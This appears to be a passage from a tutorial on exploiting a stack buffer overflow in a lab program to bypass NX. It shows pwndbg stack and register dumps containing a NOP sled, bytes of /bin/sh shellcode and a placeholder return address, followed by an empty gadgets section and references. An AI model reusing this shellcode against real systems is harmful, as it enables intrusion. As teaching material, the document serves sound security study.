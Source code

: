 ```bash
Breakpoint /root/tutorial/src/1_staticnx.c:14
pwndbg> stack 50
00:0000│ esp  0xff9abbe0 —▸ 0x80ef200 (_IO_2_1_stdout_) ◂— xchg   dword ptr [eax], ebp /* 0xfbad2887 */
01:0004│      0xff9abbe4 —▸ 0x80bee20 ◂— push   esp
02:0008│ ecx  0xff9abbe8 ◂— 0x90909090
... ↓
17:005c│      0xff9abc3c ◂— 0x686a9090
18:0060│      0xff9abc40 ◂— 0x2f2f2f68 ('h///')
19:0064│      0xff9abc44 ◂— 0x622f6873 ('sh/b')
1a:0068│      0xff9abc48 ◂— 0xe3896e69
1b:006c│      0xff9abc4c ◂— 0x1010168
1c:0070│      0xff9abc50 ◂— 0x24348101
1d:0074│      0xff9abc54 ◂— 0x1016972
1e:0078│      0xff9abc58 ◂— 0x6a51c931
1f:007c│      0xff9abc5c ◂— 0xe1015904
20:0080│      0xff9abc60 ◂— 0x31e18951
21:0084│      0xff9abc64 ◂— 0x580b6ad2
22:0088│      0xff9abc68 ◂— 0x909080cd
23:008c│      0xff9abc6c ◂— 0x90909090
... ↓
27:009c│      0xff9abc7c ◂— 0xdeadc0de
28:00a0│      0xff9abc80 ◂— 0x0
... ↓
pwndbg> regs
*EAX  0x400
*EBX  0x80481b0 (_init) ◂— push   ebx
 ECX  0xff9abbe8 ◂— 0x90909090
 EDX  0x400
 EDI  0x4e
 ESI  0x80ef00c (_GLOBAL_OFFSET_TABLE_+12) —▸ 0x8069d70 (__strcpy_sse2) ◂— mov    edx, dword ptr [esp + 4]
 EBP  0xff9abc78 ◂— 0x90909090
*ESP  0xff9abbe0 —▸ 0x80ef200 (_IO_2_1_stdout_) ◂— xchg   dword ptr [eax], ebp /* 0xfbad2887 */
*EIP  0x80488d5 (vuln+57) ◂— sub    esp, 8

```

Problem now is how to modify `0xdeadc0de` by something that falls on the Noop section
#### Code Gadgets


### Resources
- [1] Linux exploitation course. Retrieved from https://github.com/nnamon/linux-exploitation-course.
- [2] Bypassing NX with Return Oriented Programming. Retrieved from https://github.com/nnamon/linux-exploitation-course/blob/master/lessons/6_bypass_nx_rop/lessonplan.md.
- [3] pwndebug. Retrieved from https://github.com/pwndbg/pwndbg.
- [4] Why do we have to put the shellcode before the return address in the buffer overflow? Retreived from https://security.stackexchange.com/questions/101222/why-do-we-have-to-put-the-shellcode-before-the-return-address-in-the-buffer-over?rq=1.
